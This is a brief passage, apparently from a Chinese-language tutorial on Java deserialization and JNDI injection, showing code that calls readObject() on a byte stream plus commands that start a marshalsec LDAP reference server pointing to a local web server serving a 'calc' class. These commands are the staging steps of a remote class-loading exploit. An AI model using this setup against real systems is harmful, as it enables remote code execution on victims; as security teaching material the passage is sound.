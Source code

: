 ```java

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

`java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099`开启ldap服务

`python -m http.server 8000`开启web服务

